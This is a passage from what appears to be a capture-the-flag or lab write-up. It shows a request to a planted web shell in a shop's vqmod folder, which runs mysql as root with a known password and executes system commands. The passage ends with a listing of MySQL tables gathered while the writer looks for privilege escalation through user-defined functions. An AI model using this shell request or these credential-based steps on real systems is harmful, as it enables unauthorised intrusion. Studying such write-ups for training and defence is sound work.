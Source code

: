 got code execution with `GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"system+id"+ecom HTTP/1.1`

{% hint style="info" %}
had to specify -e to execute SQL commands, system to run system commands, and had to end the line with the database name 'ecom'
{% endhint %}

Unfortunately, I was still executing commands as `www-data` however, need to figure out how to escalate privileges; Found an interesting thing in the mysql references that talks about user defined variables

> User-defined variables are session specific. A user variable defined by one client cannot be seen or used by other clients.

[https://dev.mysql.com/doc/refman/8.0/en/performance-schema-user-defined-functions-table.html](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-user-defined-functions-table.html)

There was also a section on user-defined functions

```text
--------------
show tables
--------------

Tables_in_mysql
columns_priv
db
engine_cost
event
func
general_log
gtid_executed
help_category
help_keyword
help_relation
help_topic
innodb_index_stats
innodb_table_stats
ndb_binlog_index
plugin
proc
procs_priv
proxies_priv
server_cost
servers
slave_master_info
slave_relay_log_info
slave_worker_info
slow_log
tables_priv
time_zone
time_zone_leap_second
time_zone_name
time_zone_transition
time_zone_transition_type
user
```
